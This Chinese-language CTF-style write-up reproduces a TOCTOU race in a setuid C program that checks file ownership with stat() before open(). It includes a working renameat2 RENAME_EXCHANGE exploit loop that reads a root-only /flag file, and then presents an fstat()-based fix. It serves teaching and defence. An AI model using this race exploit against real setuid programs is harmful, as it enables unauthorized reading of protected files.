

今天有点无聊在 YouTube 上瞎看

看到了 liveoverflow 的一个视频，提到 [TOCTOU](https://cwe.mitre.org/data/definitions/367.html) ，所以打算复现一下

via: https://www.youtube.com/watch?v=5g137gsB9Wk

demo 代码：

via: https://gist.github.com/LiveOverflow/590edaf5cf3adeea31c73e303692dec0

```c
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>

int main(int argc, char* argv[]) {
    int fd;
    int size = 0;
    char buf[256];

    if(argc != 2) {
        printf("usage: %s <file>\n", argv[0]);
        exit(1);
    }

    struct stat stat_data;
    if (stat(argv[1], &stat_data) < 0) {
        fprintf(stderr, "Failed to stat %s: %s\n", argv[1], strerror(errno));
        exit(1);
    }

    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }

    fd = open(argv[1], O_RDONLY);
    
    if(fd <= 0)
    {
        fprintf(stderr, "Couldn't open %s\n", argv[1]);
        exit(1);
    }

    do {
        size = read(fd, buf, 256);
        write(1, buf, size);
    } while(size>0);

}
```

题目：

flag 位于 根目录：/flag

所有者：root

权限：0600 （只有所有者能读写）

```bash
# r00t @ FakeArch in / [0:41:05] 
$ ls -l /flag    
-rw------- 1 root root 17  6月 25 23:19 /flag
```

给出的一个由上面源代码编译出来的 可执行文件，可执行文件的设置了 s 权限

```c
# r00t @ FakeArch in ~ [0:42:44] 
$ ls -l /tmp/readflag
-rwsr-sr-x 1 root root 17096  6月 26 00:41 /tmp/readflag
```

现在要用这个 可执行文件 去读取 flag

代码看起来是没有什么问题的，理论上我们不能读取 /flag 文件 的内容，因为

```c
    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }
```

这个检查，检查了文件的 st_uid ，flag 文件的所有者是 `root`，所以 `readflag` 即使带了 `s` 权限，还是读取不了 `flag` 的内容

可以看 `man 2 stat` 中 对 `stat` 结构的描述，这个检查的意思是检查文件所有者的 `uid` 是不是 `0` （也就是是不是 `root`，这个毋庸置疑，`flag` 文件的所有者肯定是 `root`）

```c
struct stat {
    dev_t     st_dev;         /* ID of device containing file */
    ino_t     st_ino;         /* Inode number */
    mode_t    st_mode;        /* File type and mode */
    nlink_t   st_nlink;       /* Number of hard links */
    uid_t     st_uid;         /* User ID of owner */
    gid_t     st_gid;         /* Group ID of owner */
    dev_t     st_rdev;        /* Device ID (if special file) */
    off_t     st_size;        /* Total size, in bytes */
    blksize_t st_blksize;     /* Block size for filesystem I/O */
    blkcnt_t  st_blocks;      /* Number of 512B blocks allocated */

    /* Since Linux 2.6, the kernel supports nanosecond
       precision for the following timestamp fields.
       For the details before Linux 2.6, see NOTES. */

    struct timespec st_atim;  /* Time of last access */
    struct timespec st_mtim;  /* Time of last modification */
    struct timespec st_ctim;  /* Time of last status change */

#define st_atime st_atim.tv_sec      /* Backward compatibility */
#define st_mtime st_mtim.tv_sec
#define st_ctime st_ctim.tv_sec
};
```

怎么才能绕过这个检查

可以试试给 `flag` 文件创建一个链接

```bash
# r00t @ FakeArch in ~ [23:29:56] 
$ ls -l /flag
-rw------- 1 root root 17  6月 25 23:19 /flag

# r00t @ FakeArch in ~ [23:30:06] 
$ ln -s /flag /tmp/flag

# r00t @ FakeArch in ~ [23:30:15] 
$ ls -l /tmp/flag     
lrwxrwxrwx 1 r00t r00t 5  6月 25 23:30 /tmp/flag -> /flag
```

看到这个链接的所有者是 `r00t`  （我系统上的一个普通用户），试试看通过 软链接 去读取文件

```bash
# r00t @ FakeArch in /tmp [0:06:22] C:1
$ ./readflag /tmp/flag
Failed to stat /tmp/flag: Permission denied
```

不行。。。。


再次审计代码

```c
    struct stat stat_data;
    if (stat(argv[1], &stat_data) < 0) {
        fprintf(stderr, "Failed to stat %s: %s\n", argv[1], strerror(errno));
        exit(1);
    }

    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }

    fd = open(argv[1], O_RDONLY);
```

这个写法存在一个 条件竞争(Race condition) 的漏洞

这里用的是 `stat` 函数，通过文件名去获取文件的 `stat` 结构，然后再判断文件的所有者，如果所有者不是 `root` 的话就打开它，这里从获取文件 `stat` 到读取并不是一步就能完成的，这两个操作有一定的时间差。

假设现在传入的是 `/tmp/A` 文件（`st_uid=1000`），它的所有者是 `hacker(uid=1000)`，在执行完 `stat(argv[1], &stat_data)` 之后的那一个瞬间，我用另一个程序把 `/tmp/flag` （ `/flag` 的软链接 `st_uid=1000`） 重命名为 `/tmp/A`  这样的话，在 `if` 的检测中检查的是原本的那个 A 文件的 `st_uid`，而走到 `open` 的时候 argv[1] 虽然也是 `/tmp/A` 但是打开的却是原本的 `/tmp/flag` 文件，而这个文件是 `/flag` 的软链接，这样我们就能读出 `/flag` 的内容

这个需要很快去操作，把上面的 `/tmp/flag` （因为我们是普通用户不能直接操作 `flag` 文件，所以我们需要一个指向它的链接） 换成 `/tmp/A`

这里的 `exp` 是 https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c

```c
syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
```

`renameat2` 系统调用

很重要的参数：`RENAME_EXCHANGE `

是交换文件名，原子性操作

man 手册里的描述

       RENAME_EXCHANGE
              Atomically  exchange  oldpath  and newpath.  Both pathnames must
              exist but may be of different types (e.g., one could be  a  non-
              empty directory and the other a symbolic link).


现在在 /tmp  目录下有三个文件

A：空文件

flag：根目录下面的 flag 文件的软连接

readflag：上面源码编译出来的 可执行文件（所有者：root，有 s 权限）

```bash
# r00t @ FakeArch in /tmp [13:34:57] 
$ ls -li A flag readflag
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 A
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 flag -> /flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag
```


exp:

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

// source https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c
int main(int argc, char *argv[]) {
  while (1) {
    syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
  }
  return 0;
}
```

编译 exp

```c
gcc exp.c -o exp
```


 开始：

```bash
# r00t @ FakeArch in ~ [13:38:30] 
$ ./exp /tmp/flag /tmp/A

```


可以看到，/tmp/A 和 /tmp/flag 的 inode 一直在变

```bash
# r00t @ FakeArch in /tmp [13:44:07] C:2
$ ls -li A flag readflag
ls: 无法读取符号链接'A': 无效的参数
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 A
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag

# r00t @ FakeArch in /tmp [13:44:08] C:2
$ ls -li A flag readflag
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 A -> /flag
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag

# r00t @ FakeArch in /tmp [13:44:08] 
$ ls -li A flag readflag
ls: 无法读取符号链接'A': 无效的参数
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 A
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag

# r00t @ FakeArch in /tmp [13:44:09] C:2
$ ls -li A flag readflag
ls: 无法读取符号链接'A': 无效的参数
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 A
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag

# r00t @ FakeArch in /tmp [13:44:09] C:2
$ ls -li A flag readflag
ls: 无法读取符号链接'A': 无效的参数
ls: 无法读取符号链接'flag': 无效的参数
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 A
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag

# r00t @ FakeArch in /tmp [13:44:10] C:2
$ ls -li A flag readflag
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 A
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag

# r00t @ FakeArch in /tmp [13:44:10] 
$ ls -li A flag readflag
ls: 无法读取符号链接'A': 无效的参数
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 A
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag

# r00t @ FakeArch in /tmp [13:44:11] C:2
$ ls -li A flag readflag
ls: 无法读取符号链接'flag': 无效的参数
43007 -rw-r--r-- 1 r00t r00t     0  6月 26 13:33 A
54370 lrwxrwxrwx 1 r00t r00t     5  6月 26 13:33 flag
45584 -rwsr-sr-x 1 root root 17096  6月 26 13:32 readflag
```

现在试试看读取 flag

```bash
# r00t @ FakeArch in /tmp [13:45:34] 
$ ./readflag /tmp/flag
File /tmp/flag is owned by root

# r00t @ FakeArch in /tmp [13:45:35] C:1
$ ./readflag /tmp/flag
File /tmp/flag is owned by root

# r00t @ FakeArch in /tmp [13:45:36] C:1
$ ./readflag /tmp/flag

# r00t @ FakeArch in /tmp [13:45:36] 
$ ./readflag /tmp/flag
File /tmp/flag is owned by root

# r00t @ FakeArch in /tmp [13:45:37] C:1
$ ./readflag /tmp/flag
File /tmp/flag is owned by root

# r00t @ FakeArch in /tmp [13:45:37] C:1
$ ./readflag /tmp/flag
flag{y0u_get_1t}
```

我在第六次的时候成功读取 flag 的内容


fix:

```c
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>

int main(int argc, char* argv[]) {
    int fd;
    int size = 0;
    char buf[256];

    if(argc != 2) {
        printf("usage: %s <file>\n", argv[0]);
        exit(1);
    }

    fd = open(argv[1], O_RDONLY);

    if(fd <= 0)
    {
        fprintf(stderr, "Couldn't open %s\n", argv[1]);
        exit(1);
    }

    struct stat stat_data;
    if (fstat(fd, &stat_data) < 0) {
        fprintf(stderr, "Failed to stat %s: %s\n", argv[1], strerror(errno));
        exit(1);
    }

    if(stat_data.st_uid == 0)
    {
        fprintf(stderr, "File %s is owned by root\n", argv[1]);
        exit(1);
    }

    
    do {
        size = read(fd, buf, 256);
        write(1, buf, size);
    } while(size>0);

}
```

修复后的代码其实就是先打开文件，然后通过文件描述符去获取文件的 信息

这样就不存在文件名变更的问题了

举个例子吧

```bash
# r00t @ FakeArch in /tmp/demo [14:14:03] 
$ ls -i
173774 test

# r00t @ FakeArch in /tmp/demo [14:14:05] 
$ mv test test1 

# r00t @ FakeArch in /tmp/demo [14:14:21] 
$ ls -i
173774 test1
```

看到了吗，修改文件名其实影响不了文件的 `inode` ，在内核里面判断一个文件并不是依靠文件名

可以看看 `open` 和 `read` 在 内核里面的实现

 所以，先是用 `open` 打开文件，再通过文件文件描述符去获取文件 `stat` 结构，修改文件名是无效的，更直观一点的演示

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>

int main()
{
  int f = open("/tmp/demo/test", O_RDONLY);
  system("ls -l /proc/self/fd");
  getchar();
  system("ls -l /proc/self/fd");
  return 0;
}
```



在 `demo` 运行到 `getchar()` 的时候我修改了 `test` 文件的文件名，修改后再查看 `/proc/self/fd` 的时候原本文件描述符 `3` 是指向 `test` 文件的，修改文件名后变成了指向修改后的文件名

直接看 liveoverflow 的视频演示：https://www.youtube.com/watch?v=1hScemFvnzw

溜～